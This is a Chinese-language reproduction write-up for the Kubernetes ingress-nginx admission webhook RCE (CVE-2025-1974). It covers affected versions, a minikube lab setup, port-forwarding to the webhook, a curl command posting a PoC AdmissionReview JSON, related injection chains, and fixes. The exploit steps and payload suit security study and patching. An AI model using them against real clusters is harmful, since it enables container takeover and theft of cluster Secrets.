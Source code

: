 # Kubernetes Ingress-nginx admission 远程代码执行漏洞 CVE-2025-1974

## 漏洞描述

Ingress-nginx 是 Kubernetes 集群内服务对外暴露的访问接入点，用于承载集群内服务访问流量。其小于 1.12.1 的旧版本中，Kubernetes Ingress-nginx admission 控制器存在一个配置注入漏洞，已获取集群网络访问权限的远程攻击者，可以通过 `ValidatingAdmissionWebhook` 提交一个配置文件进行验证，并在配置文件中插入恶意配置，实现远程代码执行，导致 Ingress-nginx 所在容器被攻击者控制，并可能导致集群内的 Secrets 泄漏。

参考链接：

- https://github.com/kubernetes/kubernetes/issues/131009
- https://msrc.microsoft.com/update-guide/vulnerability/CVE-2025-1974
- https://github.com/sandumjacob/IngressNightmare-POCs
	- CVE-2025-24513: [kubernetes/kubernetes#131005](https://github.com/kubernetes/kubernetes/issues/131005)
	- CVE-2025-24514: [kubernetes/kubernetes#131006](https://github.com/kubernetes/kubernetes/issues/131006)
	- CVE-2025-1097: [kubernetes/kubernetes#131007](https://github.com/kubernetes/kubernetes/issues/131007)
	- CVE-2025-1098: [kubernetes/kubernetes#131008](https://github.com/kubernetes/kubernetes/issues/131008)
	- CVE-2025-1974: [kubernetes/kubernetes#131009](https://github.com/kubernetes/kubernetes/issues/131009)
- https://www.wiz.io/blog/ingress-nginx-kubernetes-vulnerabilities

## 漏洞影响

```
Ingress-nginx < v1.11.0
Ingress-nginx v1.11.0 - 1.11.4
Ingress-nginx v1.12.0
```

## 环境搭建

安装 minikube 和 kubectl：

- [minikube](https://minikube.sigs.k8s.io/docs/start/)
- [kubectl](https://kubernetes.io/docs/reference/kubectl/)

启动 minikube，本环境的 minikube、kubectl、Kubernetes Server 版本如下：

```
minikube version
-----
minikube version: v1.33.1
commit: 5883c09216182566a63dff4c326a6fc9ed2982ff
```

```
kubectl version
-----
Client Version: v1.30.1
Kustomize Version: v5.0.4-0.20230601165947-6ce0bf390ce3
Server Version: v1.30.0
```

下载 Kubernetes Ingress-nginx 1.11.3 的 [deploy.yaml](https://github.com/kubernetes/ingress-nginx/blob/f6456ea86c6c330e7cf401ade70ce1faa757265b/deploy/static/provider/cloud/deploy.yaml)，通过 kubectl 部署资源：

```
kubectl apply -f deploy.yaml
```

部署完成后，可执行以下命令查看 ingress-nginx 命名空间中的 pod：

```
kubectl get pods -n ingress-nginx
-----
NAME                                        READY   STATUS      RESTARTS   AGE
ingress-nginx-admission-create-jmw9x        0/1     Completed   0          24m
ingress-nginx-admission-patch-jbxj6         0/1     Completed   1          24m
ingress-nginx-controller-869748796c-p4jvj   1/1     Running     0          24m
```

![](images/Kubernetes%20Ingress-nginx%20admission%20远程代码执行漏洞%20CVE-2025-1974/image-20250413172307109.png)

## 漏洞复现

查看 webhook 服务器信息，显示服务器正在监听 8443 端口：

```
kubectl describe pod ingress-nginx-controller-869748796c-p4jvj -n ingress-nginx
-----
--validating-webhook=:8443
```

![](images/Kubernetes%20Ingress-nginx%20admission%20远程代码执行漏洞%20CVE-2025-1974/image-20250413172648584.png)

使用端口转发访问 webhook 端口：

```
kubectl port-forward -n ingress-nginx ingress-nginx-controller-869748796c-p4jvj 1337:8443
```

![](images/Kubernetes%20Ingress-nginx%20admission%20远程代码执行漏洞%20CVE-2025-1974/image-20250413172813574.png)

此时，我们已将易受攻击的 webhook 服务器从 pod 转发到本地机器的本地端口 1337。执行 [poc](https://github.com/sandumjacob/IngressNightmare-POCs)，发送包含 nginx 配置的 AdmissionRequest：

```
curl --insecure -v -H "Content-Type: application/json" --data @poc.json https://localhost:1337/fake/path
```

![](images/Kubernetes%20Ingress-nginx%20admission%20远程代码执行漏洞%20CVE-2025-1974/image-20250413173013506.png)

查看日志，以确保执行成功：

```
kubectl logs ingress-nginx-controller-869748796c-p4jvj -n ingress-nginx
```

![](images/Kubernetes%20Ingress-nginx%20admission%20远程代码执行漏洞%20CVE-2025-1974/image-20250413173205563.png)

组合利用：

- CVE-2025-1974 + CVE-2025-24514 → auth-url injection → RCE
- CVE-2025-1974 + CVE-2025-1097 → auth-tls-match-cn injection → RCE
- CVE-2025-1974 + CVE-2025-1098→ mirror UID injection → RCE

## 漏洞 POC

poc.json

```json
{
  "apiVersion": "admission.k8s.io/v1",
  "kind": "AdmissionReview",
  "request": {
    "kind": {
      "group": "networking.k8s.io",
      "version": "v1",
      "kind": "Ingress"
    },
    "resource": {
      "group": "",
      "version": "v1",
      "resource": "namespaces"
    },
    "operation": "CREATE",
    "object": {
      "metadata": {
        "name": "deads",
        "annotations": {
            "nginx.ingress.kubernetes.io/mirror-host": "test"
        }
      },
      "spec": {
        "rules": [
        {
            "host": "jacobsandum.com",
            "http": {
            "paths": [
                {
                "path": "/",
                "pathType": "Prefix",
                "backend": {
                    "service": {
                    "name": "kubernetes",
                    "port": {
                        "number": 80
                    }
                    }
                }
                }
            ]
            }
        }
        ],
        "ingressClassName": "nginx"
      }
    }
  }
}
```

## 漏洞修复

- 更新至 1.11.5 或 1.12.1 及其以上版本。
- 确保 admission webhook 端点没有暴露在外。

缓解措施：

- 使用 `controller.admissionWebhooks.enabled=false` 参数重新安装 ingress-nginx；
- 删除名为 `ingress-nginx-admission` 的 `ValidatingWebhookConfiguration` ，并从 `ingress-nginx-controller` 容器的 Deployment 或 DaemonSet 中删除 `--validating-webhook` 参数。
